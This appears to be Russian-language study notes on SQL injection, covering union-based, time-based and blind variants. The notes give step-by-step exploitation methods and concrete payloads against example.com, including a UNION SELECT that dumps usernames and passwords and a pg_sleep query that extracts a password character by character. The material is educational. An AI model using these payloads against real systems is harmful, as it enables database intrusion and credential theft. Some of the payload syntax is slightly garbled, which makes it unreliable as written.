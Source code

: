 При эксплуатации:
1. Определяем количество столбцов
	`UNION SELECT NULL`, `UNION SELECT NULL, NULL`, ...
	`ORDER BY 1--`, `ORDER BY 2--`, ...
2. Определить столбец, который возвращается в ответе приложения и определить его тип данных
	`UNION SELECT'asd',NULL--`, `UNION SELECT NULL,'asd'--`
3. Определить, какие таблицы (information_schema.tables) и столбцы (information_schema.columns) есть в бд
4. Достать необходимые значения
5. Бонус- можно использовать конкатенацию и выводить несколько столбцов
	`UNION SELECT NULL, username + || ’~’ || + password FROM users--`

##### Пример Union-Based SQLi

GET /orders?type=1==' UNION SELECT username || '~' || password FROM users--== HTTP/1.1
Host: example.com

Ответ сервера:

```
HTTP/1.1 200 OK
...
{
{"wood", "admin~1234"},
{"wood", "user~4321"},
}
```

##### Time-based SQLi
- происходит вызов временных задержек в зависимости от истинности некоторого условия
- Обычно данные достаются **посимвольно**
- крайне затратный по времени метод. Стоит использовать только если больше ничего не работают
- Бинарный поиск и многопоточность спасают ситуацию
- К данному типу можно свести почти любой другой тип (а в каких случаях нет? - когда данные процедуры работают в многопотоке)

##### Пример Time-based SQLi

GET/page?id=1==';SELECT CASE WHEN (username='admin' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--== HTTP/1.1
Host: example.com

Вызовется 10 секундная задержка в ответе, если условие истинно, иначе временно задержки не будет

##### Blind SQLi
- Приложение не возвращает вывода вне зависимости от поставления данных
- Из поведения приложения можно однозначно сказать, истинно или ложно SQL-условие, которое отправляет атакующий
- Как самостоятельный тип может существовать, если приложение содержит какие-то доп. символы/заголовки
- Очень часто включает в себя другие типы как подвтды, например time-baser, error-based (код ответа)
*Примечание*: при наименовании типа уязвимости, если уязвимость "слепая", то данная характеристика будет доминирующей
